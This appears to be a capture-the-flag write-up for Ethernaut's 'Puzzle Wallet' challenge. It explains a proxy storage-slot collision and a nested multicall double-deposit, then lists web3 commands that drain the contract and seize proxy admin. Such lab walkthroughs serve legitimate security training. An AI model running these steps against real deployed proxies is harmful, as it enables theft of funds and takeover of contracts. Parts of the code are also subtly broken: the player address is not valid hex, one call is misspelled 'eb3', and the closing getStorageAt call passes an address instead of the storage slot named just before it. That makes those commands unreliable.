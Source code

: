 # Solution to challenge 24 : Puzzle Wallet

Our goal here is to claim ownership of the PuzzleProxy contract. First we need to understand the Proxy structure of the challenge, the slot arrangement in both contracts should be the same because the slots are mapped. 

As a result, when the proxy contract makes a call to the implementation contract, the proxy's storage variables are modified and the call is made in the context of the proxy.

```
SLOT    PuzzleProxy   |  PuzzleWallet
----------------------------------------------------------------------------------
0       pendingAdmin     owner

1       admin            maxBalance
```        

This means that if we change the value of `pendingAdmin` in ``PuzzleProxy`` contract , the `owner` value will be changed in `PuzzleWallet` contract.

So let's think about our objective : change `admin` value in `PuzzleProxy` to player's address, there is no way to change it through ``PuzzleProxy``, so let's aim at changing `maxBalance` value which shares the "same storage slot".

There are 2 ways to alter this value :

1. `init()` function : not exploitable because it **has already been initialized**
2. `setMaxBalance()` function : exploitable but we need the contract's balance to be equal to zero

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet1.png)

Unfortunately, by default the contract's balance is equal to `0.001 ether` :

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet2.png)

We can reduce its balance through `execute()` function which is equivalent to a withdraw function :

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet3.png)

Sadly the contract keeps track of what we deposited, that's why we will need to use the last and most complex function available : `multicall()` 

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet4.png)

This function allows us to execute multiple functions in 1 transaction. Thus, we can abuse of the fact that even if ETH is spent, `msg.value` will remain the same and take the opportunity to make a double call to the `deposit` function. The developers were aware of this exploitable issue and made a protection by checking the **selector** (first 4 bytes of the function signature).

But we can bypass this protection if we **"pack"** one deposit inside another `multicall`

Let's sum up all the actions required together, we will only used web3 js commands :

1. Claim ownership of `PuzzleWallet` contract by changing `pendingAdmin` value to the player's address

We first calculate the signature of the `proposeNewAdmin` function :

```
web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)");

'0xa6376746'
```

Then the signature of the parameter `address` with player's address : 

```
web3.eth.abi.encodeParameter("address", player);

'0x000000000000000000000000cabcdefghijkl123456123451234567123456789'
```

We put them together and send this transaction data :

```
contract.sendTransaction({ data: '0xa6376746000000000000000000000000cabcdefghijkl123456123451234567123456789' });
```

After that, the `owner`'s  value of `PuzzleWallet` is now your player's address.

2. Add our player's address to the whitelist in order to interact with the different functions

```
contract.addToWhitelist(player);
```

3. Prepare the data bytes required for the  ``multicall`` and `deposit` exploit, do not forget to include the parameters expected by the functions

``deposit()`` function signature :

```
deposit = web3.eth.abi.encodeFunctionSignature("deposit()");

'0xd0e30db0'
```

`multicall(bytes[])` function signature :

```
multicall = eb3.eth.abi.encodeFunctionSignature("multicall(bytes[])");

'0xac9650d8'
```

Signature of the `deposit` call as a  `multicall` parameter :

```
web3.eth.abi.encodeParameter('bytes[]', [deposit]);

'0x0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000';
```

Again, we add the `deposit` function signature  :

```
packedDeposit = '0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000';
```

4. Call `multicall` function with the prepared data bytes with a msg of at least ``0.001 ether``

```
contract.multicall([deposit, packedDeposit], { value: toWei('0.001') });
```

5. As a result, the contract has now a balance equal to `0.002 ether`, we called twice the deposit function and increased our "available balance" while only depositing `0.001 ether`

```
(await getBalance(instance)).toString();

'0.002'
```

6. We can now withdraw `0.002 ether` from the contract using `execute` function and make the contract's balance empty

```
contract.execute(player, toWei('0.002'), '123');
```

7. All the protections are now gone, we can now change `maxBalance` value to finally become the owner of the `PuzzleProxy` contract
8. 
```
contract.setMaxBalance('1116821831790595974849218070050646934865281521986');
```


#### BONUS : Retrieve the address of the proxy's contract

Once we get our game instance, we only know the `PuzzleWallet` 's contract address. 

But according to **EIP-1967** : To avoid clashes in storage usage between the proxy and logic contract, the address of the logic contract is typically saved in a specific storage slot guaranteed to be never allocated by a compiler.

For OpenZeppelin's contracts it is at slot ``0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc``

As a result, we can get our address by getting the data at this specific storage slot :

`web3.eth.getStorageAt(instance,"0xcabcdefghijkl123456123451234567123456789")`

Source : https://eips.ethereum.org/EIPS/eip-1967